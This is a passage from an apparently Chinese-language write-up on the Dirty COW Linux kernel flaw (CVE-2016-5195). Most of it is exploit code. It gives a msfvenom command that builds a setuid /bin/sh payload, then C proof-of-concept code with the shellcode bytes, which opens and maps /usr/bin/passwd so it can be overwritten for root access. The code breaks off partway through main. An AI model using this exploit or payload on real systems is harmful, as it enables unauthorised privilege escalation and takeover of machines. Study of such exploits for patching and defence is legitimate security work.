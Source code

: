 笔者这里选择改写 `/usr/bin/passwd` 以完成提权，因为这个程序有着 root 的执行权限

在这里笔者选择使用 `msfvenom` 这一个工具构造 payload，如下：

```shell
msfvenom -p linux/x64/exec PrependSetuid=True -f elf | xxd -i
```

exp 如下：

```c
/**
 * 
 * CVE-2016-5195
 * dirty C-O-W
 * poc by arttnba3
 * 2021.4.14
 *  
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat dst_st, fk_st;
void * map;
char *fake_content;

unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x95, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xb2, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x48, 0xb8, 0x2f, 0x62,
  0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x99, 0x50, 0x54, 0x5f, 0x52, 0x5e,
  0x6a, 0x3b, 0x58, 0x0f, 0x05
};
unsigned int sc_len = 149;

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open("/usr/bin/passwd", O_RDONLY);
    printf("fd of dst: %d\n", dst_fd);

    fstat(dst_fd, &dst_st); // get destination file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
```